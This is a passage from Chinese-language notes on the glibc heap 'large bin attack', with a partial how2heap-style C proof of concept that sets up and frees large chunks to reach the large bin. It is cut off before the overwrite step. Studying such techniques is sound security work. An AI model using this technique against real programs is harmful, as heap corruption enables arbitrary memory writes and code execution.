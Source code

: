  ![image-20211226161559404](/images/heap/image-20211226161559404.png)

## large_bin_attack

​    回顾一下large bin的概念，large bin大小：大于1024字节

   双向循环链表，先进先出，按照从大到小排序

   当有空闲块相邻的时候，chunk会被合并

   除了fd、bk指针还有fd_nextsize和bk_nextsize

​    源码如下。

 ```c
 #include<stdio.h>
 #include<stdlib.h>
  
 int main()
 {
     fprintf(stderr, "根据原文描述跟 unsorted bin attack 实现的功能差不多，都是把一个地址的值改为一个很大的数\n\n");
 
     unsigned long stack_var1 = 0;
     unsigned long stack_var2 = 0;
 
     fprintf(stderr, "先来看一下目标:\n");
     fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
     fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);
 
     unsigned long *p1 = malloc(0x320);
     fprintf(stderr, "分配第一个 large chunk: %p\n", p1 - 2);
 
     fprintf(stderr, "再分配一个 fastbin 大小的 chunk，来避免 free 的时候下一个 large chunk 与第一个合并了\n\n");
     malloc(0x20);
 
     unsigned long *p2 = malloc(0x400);
     fprintf(stderr, "申请第二个 large chunk 在: %p\n", p2 - 2);
 
     fprintf(stderr, "同样在分配一个 fastbin 大小的 chunk 防止合并掉\n\n");
     malloc(0x20);
 
     unsigned long *p3 = malloc(0x400);
     fprintf(stderr, "最后申请第三个 large chunk 在: %p\n", p3 - 2);
  
     fprintf(stderr, "申请一个 fastbin 大小的防止 free 的时候第三个 large chunk 与 top chunk 合并\n\n");
     malloc(0x20);
  
     free(p1);
     free(p2);
     fprintf(stderr, "free 掉第一个和第二个 chunk，他们会被放在 unsorted bin 中 [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));
 
     malloc(0x90);
     fprintf(stderr, "现在去申请一个比他俩小的，然后会把第一个分割出来，第二个则被整理到 largebin 中，第一个剩下的会放回到 unsortedbin 中 [ %p ]\n\n", (void *)((char *)p1 + 0x90));
 
 ```